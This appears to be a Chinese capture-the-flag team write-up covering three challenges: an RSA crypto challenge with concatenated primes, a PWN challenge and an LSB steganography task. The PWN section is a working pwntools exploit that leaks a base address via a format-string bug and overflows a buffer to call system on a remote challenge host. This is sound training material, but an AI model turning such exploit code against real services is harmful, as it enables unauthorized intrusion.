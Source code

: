 # 水狗献花拜佛队战队 WriteUp

图片资源：`./images/`

## 排名

战队名称：第**123**名

![image-20230603160641535](./assets/image-20230603160641535.png)

## 解题思路

### Crypto

#### **HaM3**

1.题目

```python
from Crypto.Util.number import *
from secret import flag

p, q = getPrime(64), getPrime(64)
P = int(str(p) + str(q))
Q = int(str(q) + str(p))
PP = int(str(P) + str(Q))
QQ = int(str(Q) + str(P))
assert isPrime(PP) and isPrime(QQ)
n = PP * QQ
m = bytes_to_long(flag)
c = pow(m, 65537, n)
print('n =', n)
print('c =', c)
'''
n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
'''
```

2.题目分析

在生成p,q的时候，先生成两个64位的较小素数，然后基于这两个小素数直接连接式组合，得到了大素数，最后乘起来得到了最后的n。

这种直接组合受到了十进制位数的影响的，即生成的素数有是20位十进制数的可能，也有可能是19位十进制数的可能。这样根据排列组合就有三种情况：两个20位十进制数的素数、一个19位，一个20位十进制数的素数，也有可能是两个19位十进制数的素数。

首先设p,q均为10^19  ,发现组合后数值比n大，然后设p,q均为10^19 −1，发现组合后数值比n小了。所有一个是20位一个是19位。

设p的位数是20，q的位数是19，则：
$$
n=[pqqp]*[qppq]
$$

$$
[pq]=10^*19p+q
$$

$$
[qp]=10^*20q+p
$$

$$
[pqqp]=10^*58p+10^*39q+10^*20q+p
$$

$$
[qppq]=10^*59q+10^*39p+10^*19p+q
$$

带入计算得：

p^2 的系数是10 ^97+ 10^77+ 10^39+ 10^19

q^2 的系数是10 ^98+ 10^78+ 10^39+ 10^20

p*q的系数是10^117 +10^78 +2×10^59+ 2×10^58 +10^39+1

经过分析：在10^137 往上和10^18 往下都是只有pq的高位和低位，但是pq的值的中间一位是不知道的。则：截取n-10^136 |  10^136 和 n mod 10^19就可以得出pq

即：

```python
n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
n-=10**136
a,b=n//10**136,n%10**19
print(int(str(a)+str(b)))
```

这样可以得出p*q:

```python
142672086626283587036081295993762052633
```

使用在线工具分解：

```python
p = 9937378783676979077
q = 14357114660923972229
```

写出解密代码：

```python
from Crypto.Util.number import *

'''
n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
n-=10**136
a,b=n//10**136,n%10**19
print(int(str(a)+str(b)))
'''

def decrypt_RSA(c, e, p, q):
    phi = (p - 1) * (q - 1)
    d = inverse(e, phi)
    m = pow(c, d, p * q)
    print(long_to_bytes(m))


n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
p = 9937378783676979077
q = 14357114660923972229

P = int(str(p) + str(q))
Q = int(str(q) + str(p))
PP = int(str(P) + str(Q))
QQ = int(str(Q) + str(P))
N = PP * QQ
print(N == n)
decrypt_RSA(c, 65537, PP, QQ)
```

3.结果

![image-20230603160859512](./assets/image-20230603160859512.png)

### PWN

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
# p=process('./pwn3')
p=remote("121.196.192.181",10001)
elf=ELF('./pwn3')
p.recvuntil(b':')
p.sendline(b'2')#进入格式化字符串漏洞
p.sendlineafter(b'Welcome to Terra_Cotta_Warriors',b'%19$p')
base=int(p.recv(14),16)-0x2eb #得到基址
p_rdi=base+0x433#出栈
system=base+0x29a
ret=base+0x01a
exit=base+0x110
payload=b'a'*0x20+p64(ret)+p64(system)
p.recvuntil(b'choice :\n')
p.sendline(b'1')#进入缓冲区溢出漏洞
p.sendlineafter(b"Welcome to Huashan_Mountain",payload)
p.interactive()
```

### Misc

#### 管道

1. 题目

![管道](./assets/%E7%AE%A1%E9%81%93.png)

1. 题目分析

根据题目利用LSB隐写工具进行爆破

![2](./assets/2.jpg)

![23](./assets/23.jpg)

搜寻`flag`关键字

![234](./assets/234.jpg)

得到flag

